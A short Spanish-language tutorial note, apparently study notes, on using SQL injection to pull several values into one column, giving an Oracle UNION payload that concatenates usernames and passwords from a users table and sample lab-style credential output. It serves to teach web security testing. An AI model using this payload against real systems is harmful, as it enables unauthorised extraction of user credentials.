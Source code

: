 # Recuperar múltiples valores dentro de una sola columna

Se puede recuperar valores juntos dentro de una unica columna concatendando los valores. Se puede incluir separadores para destingir los valores.
En oracle : 
' UNION SELECT username || '~' || password FROM users--
Esto utiliza la secuencia de doble tubo || que es un operador de concatenación de cadenas en Oracle. La consulta inyectada concatena los valores de la username y password campos, separados por el ~ caracter.
Ejemplo : ...
administrator~s3cure
wiener~peter
carlos~montoya
...

Diferentes bases de datos tienen diferente sintaxis para concatenar la cadena.
